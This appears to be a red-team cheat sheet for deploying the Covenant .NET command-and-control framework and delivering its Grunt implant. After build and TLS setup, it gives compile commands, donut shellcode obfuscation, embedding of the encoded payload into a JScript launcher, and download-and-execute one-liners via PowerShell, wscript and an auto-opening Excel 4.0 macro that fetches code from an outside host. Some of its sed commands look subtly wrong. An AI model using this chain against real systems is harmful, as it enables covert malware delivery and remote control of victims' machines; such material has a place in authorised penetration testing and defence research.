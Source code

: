 #### 1. About

- URL: `https://github.com/cobbr/Covenant`
- .NET C2 framework


#### 2. Build

From: `https://github.com/cobbr/Covenant/wiki/Installation-And-Startup`

```
# git clone --recurse-submodules https://github.com/cobbr/Covenant
# cd Covenant/Covenant
# docker build -t covenant .
```


#### 3. Run

```
# cd Covenant/Covenant
# docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -d -v `pwd`/Data>:/app/Data covenant
```


#### 4. SSL Cert for HTTPs listener

```
# site='test.local'
# out='default.pem'
# openssl req \
-x509 -nodes -days 365 -sha512 \
-subj "/C=CH/ST=ZH/L=Zurich/CN=$site" \
-newkey rsa:4096 -keyout $out -out $out
# openssl pkcs12 -export -in $out -inkey $out -out default.pfx
```

- ConnectAddresses: <EXTERNAL_IP>
- ConnectPort: 443
- BindPort: 443
- BindAddress: 0.0.0.0


#### 5. Instrumentation

1. Launcher config

```
Launchers > Binary (ValidateCert: false, UseCertPinning: false)
Launchers > Binary > Code - save as GruntHTTP.cs
```

2. Compile .NET

```
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -out:grunt64.exe GruntHTTP.cs
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -platform:x86 -out:grunt32.exe GruntHTTP.cs
```

3. Use `donut` (`https://github.com/TheWover/donut/releases`) for binary obfuscation

```
PS>.\donut.exe -a2 -f1 'grunt64.exe' -o grunt64.bin
PS>.\donut.exe -a2 -f1 'grunt32.exe' -o grunt32.bin
```

4. WScript example

```
PS>powershell -c "(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js')" > x.js
PS>wscript.exe x.js
```

5. Place encoded Grunt shell-code into launcher JS script for `wscript`

```
# wget https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js

# l32=`grep -n '^var encodedPayload32' ShellcodeToJScript.js | awk -F ':' '{print $1}'`
# l64=`grep -n '^var encodedPayload64' ShellcodeToJScript.js | awk -F ':' '{print $1}'`

# p32=`base32 -w0 grunt32.bin`
# p64=`base64 -w0 grunt64.bin`

# sed -i --expression $l32"s@.*@var encodedPayload64=\"$p32\";@" ShellcodeToJScript.js
# sed -i --expression $l64"s@.*@var encodedPayload64=\"$p64\";@" ShellcodeToJScript.js
```

6. Serve/download and run the JS file

```
# python3 -m http.server 9999

>powershell -c "(New-Object System.Net.WebClient).DownloadString('http://172.16.103.128:9999/ShellcodeToJScript.js')" > %temp%\x.js
>wscript.exe %temp%\x.js
```

7. Excel download and execute (Macro v4)

```
=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,"http://172.16.103.128:9999/ShellcodeToJScript.js","C:\Users\Public\jscript.js",0,0)
=EXEC("wscript.exe C:\Users\Public\jscript.js")
```
Note: remember to change `A1` to `Auto_open`
